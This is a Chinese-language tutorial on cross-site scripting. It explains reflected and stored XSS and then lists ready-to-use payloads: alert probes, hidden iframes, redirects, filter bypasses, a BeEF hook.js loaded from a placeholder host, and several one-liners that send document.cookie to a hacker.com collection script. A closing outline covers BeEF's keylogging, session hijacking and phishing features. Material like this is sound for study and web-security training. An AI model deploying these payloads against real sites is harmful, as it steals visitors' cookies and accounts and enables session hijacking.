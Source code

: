 跨站脚本攻击XSS：（Cross Site Scripting）

# 一、XSS简介
跨站脚本（cross site script）为了避免与css混淆，所以简称为XSS。

XSS是一种经常出现在web应用中的计算机安全漏洞，也是web中最主流的攻击方式。

XSS是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。

## 1.1 XSS攻击的危害包括
 1. 盗取各类用户账号，如机器登录账号、用户网银账号、各类管理员账号。
 2. 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。
 3. 盗窃企业重要的具有商业价值的材料。
 4. 非法转账。
 5. 强制发送电子邮件，
 6. 网站挂马。
 7. 控制受害者机器向其他网站发起攻击。

## 1.2 XSS原理解析
XSS主要原因：
过于信息客户端提交的数据！

### 1.2.1 XSS（反射型）
![](https://www.showdoc.cc/server/api/common/visitfile/sign/794b8ab40f61a12d9f0c08e2dca6ba66?showdoc=.jpg)

XSS主要分类：
反射型xss攻击（Reflected XSS）又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接（即每次攻击需要用户的点击）。

### 1.2.2 XSS（存储型）
![](https://www.showdoc.cc/server/api/common/visitfile/sign/cfc877adedfc2f8726e8e6f8dcb471f9?showdoc=.jpg)

存储型XSS（Stored XSS）又称为持久型跨站点脚本，它一般发生在XSS攻击向量（一般指XSS攻击代码）存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器，脚本执行。持久的XSS相比非持久性XSS攻击危害性更大，因为每当用户打开页面，查看内容时脚本将自动执行。

存储型XSS（持久型XSS）即攻击者将带有XSS攻击的链接放在网页的某个页面，例如评论框等；用户访问此XSS链接并执行，由于存储型XSS能够攻击所有访问此页面的用户，所以危害非常大。

# 二、构造XSS脚本
## 2.1 常用HTML标签
```
<iframe>  iframe元素会创建包含另外一个文档的内联框架（即行内框架）。
<textarea>  <textarea>标签定义多行的文本输入控件。
<img>    img元素向网页中嵌入一幅图像。
<script>  <script>标签用于定义客户端脚本，比如JavaScript。script元素既可以包含脚本语句，也可以通过src属性指向外部脚本文件。必须的type属性规定脚本的MIME类型。JavaScript的常见应用时图像操作、表单验证以及动态内容更新。
```

## 2.2 常用JavaScript方法
```
alert   alert()方法用于显示带有一条指定消息和一个确认按钮的警告框。
window.location   window.location对象用于获得当前页面的地址（URL），并把浏览器重定向到新的页面。
Llcation.href   返回当前显示的文档的完整URL
lnload   一张页面或一幅图像完成加载。
lnsubmit   确认按钮被点击。
lnerror   在加载文档或图像时发生错误。
```

## 2.3 构造XSS脚本
### 2.3.1 弹窗警告
此脚本实现弹框提示，一般作为漏洞测试或者演示使用，类似SQL注入漏洞测试中的单引号’，一旦次脚本能执行，也就意味着后端服务器没有对特殊字符做过滤<>/’，这样就可以证明，这个页面位置存在了XSS漏洞。
```Javascript
<script>alert(‘xss’)</script>
<script>alert(document.cookie)</script>
```
### 2.3.2 页面嵌套
```html
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>
```
### 2.3.3 页面重定向
```Javascript
<script>window.location=”http://www.baidu.com”</script>
<script>location.href=”http://www.baidu.com”</script>
```
### 2.3.4 弹框警告并重定向
```Javascript
<script>alert(“请进入新的网站”);location.href=”http://www.baidu.com”</script>
<script>alert(‘xss’);location.href=”http://10.1.1.2/mul/test.txt”</script>
// 通过网站内部私信的方式将其发给其他用户。如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户（克隆网站收集账户）。
```
### 2.3.4 访问恶意代码
```Javascript
<script src=”http://www.baidu.com/xss.js”></script>
<script src=”http://BeEF_IP:3000/hook.js”></script>
// 结合BeEF收集用户的cookie
```

### 2.3.5 巧用图片标签
```html
<img src=”#” onerror=alert(‘xss’)>
<img src=”javascript:alert(‘xss’);”>
<img src=”http://BeEF_IP:3000/hook.js”></img>
```
### 2.3.5 绕开过滤的脚本
```html
// 大小写<ScrIpt>alert(‘xss’)</SCRipt>
// 字符编码 采用URL、Base64等编码
<a href=”&#106,&#97;”>test</a>
```
### 2.3.6 收集用户cookie
```Javascript
// 打开新窗口并且采用本地cookie访问目标网页。
<script>window.open(“http://www.hacker.com/cookie.php?cookie=”+document.cookie)</script>
<script>document.location(“http://www.hacker.com/cookie.php?cookie=”+document.cookie)</script>
<script>new Image.src=”http://www.hacker.com/cookie.php?cookie=”+document.cookie;</script>
<img src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”></img>
<iframe src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”></iframe>
<script>new Image.src=”http://www.hacker.com/cookie.php?cookie=’+document.cookie”;img.width=0;img.height=0;</script>
```
# 三、自动化XSS
## 3.1 BeEF简介
Browser Exploitation Framework（BeEF）
BeEF是目前最强大的浏览器开源渗透测试框架，通过XSS漏洞配置JS脚本和Metasploit进行渗透；BeEF是基于Ruby语言编写的，支持图形化界面，操作简单。
官方网站：http://beefproject.com/

## 3.2 信息收集
 1. 网络发现
 2. 主机信息
 3. Cookie获取
 4. 会话劫持
 5. 键盘记录
 6. 插件信息

## 3.3 持久化控制
 1. 确认弹框
 2. 小窗口
 3. 中间人

## 3.4 社会工程
 1. 点击劫持
 2. 弹窗告警
 3. 虚假页面
 4. 钓鱼页面

## 3.5 渗透攻击
 1. 内网渗透
 2. Metasploit
 3. CSRF攻击
 4. DDOS攻击

## 3.6 BeEF基础
![](https://www.showdoc.cc/server/api/common/visitfile/sign/0d83a34978091793bc4484c046116801?showdoc=.jpg)

命令颜色(color)：
 - 绿色：对目标主机生效并且不可见（不会被发现）
 - 橙色：对目标主机生效但可能可见（可能被发现）
 - 灰色：对目标主机未必生效（可验证下）
 - 红色：对目标主机不生效

